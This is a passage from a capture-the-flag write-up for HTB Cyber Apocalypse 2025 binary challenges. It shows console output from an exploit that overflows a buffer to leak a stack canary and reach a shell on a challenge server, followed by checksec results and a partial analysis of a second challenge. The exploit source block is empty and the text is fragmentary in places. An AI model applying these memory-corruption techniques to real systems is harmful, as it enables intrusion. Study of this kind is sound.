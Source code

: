 ```python
```

Running the script gives us the flag:
```shell
$ python3 exploit.py -b ./quack_quack remote 94.237.57.171 43784
[+] Opening connection to 94.237.57.171 on port 43784: Done
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    RUNPATH:    b'./glibc/'
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
101 b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAQuack Quack '
b'T\xbd\x08\xa4\x92O)'
[+] canary =  0x294f92a408bd5400
[*] Switching to interactive mode

> Did you really expect to win a fight against a Duck?!
https://yocvito.github.io/posts/ctf-htb-cyberapocalypse-2025/
HTB{XXX}
```


## PWN - Blessing

### Enumeration

Binary is dynamically linked and not stripped. It has following security mechanisms enabled:
```shell
$ checksec blessing
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    RUNPATH:    b'./glibc/'
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

### Analysis

We open the binary in IDA. We see that the `main()` function allocates a big buffer on the heap (which is actually mmaped instead of being located on heap), and writes a boolean flag at this location. If this flag is
**false (0)** at the end of the program, then it displays the flag.


[Sir Alaric]: Give me your best warcry!!
[Sir Alaric]: That was quite a shot!!
